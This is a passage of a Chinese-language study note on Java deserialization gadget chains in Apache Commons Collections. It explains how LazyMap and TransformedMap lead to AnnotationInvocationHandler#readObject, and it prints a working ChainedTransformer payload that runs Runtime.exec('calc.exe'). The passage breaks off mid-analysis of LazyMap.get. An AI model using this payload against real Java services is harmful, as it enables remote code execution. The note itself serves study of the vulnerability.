所以, payload构造时:

```java
Transformer transformerChain = new ChainedTransformer(new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class} ,new Object[]{"getRuntime",new Class[0]}),
new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[0]}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"calc.exe"})
});
```

利用链入口点: `sun.reflect.annotation.AnnotationInvocationHandler#readObject` 

## 利用链

目前已有的利用链有两条, 

一条是ysoserial用的LazyMap

另一条是TransformedMap

> LazyMap 和 TransformedMap 类似，都来自于 Common-Collections 库，并继承 AbstractMapDecorator
> 
> 
> LazyMap 的漏洞触发点和 TransformedMap 唯一的差别是，TransformedMap 是在写入元素的时候执行 transform，而 LazyMap 是在其 get 方法中执行的 factory.transform 。其实这也好理解，LazyMap 的作用是“懒加载”，在 get 找不到值的时候，它会调用 factory.transform 方法去获取一个值
> 

## Lazymap利用链分析

根据刚刚利用链核心, 从 `Find Usages` 找到了 `Lazymap` 调用了 `transform` . 然后目标是最后找到 `readObject` 方法.

### 一. **LazyMap**

1. 首先看 `LazyMap` 下的 `get` 方法, 调用了 **transform 方法(即利用链核心下的类方法)**
    
    > get方法同时还要求传入一个Object 参数，get方法内部在调用transform方法之前会先判断一下key，如果当前map中不存在key的话，则通过factory来创建一个value
    > 
    
    ```java
    public Object get(Object key) {
            // create value for key if key is not currently in the map
            if (map.containsKey(key) == false) {
                Object value = factory.transform(key);
                map.put(key, value);
                return value;
            }
            return map.get(key);
        }
    
    // factory 这里是LazyMap类的成员属性, 其他数据类型也是Transformer
    ```
    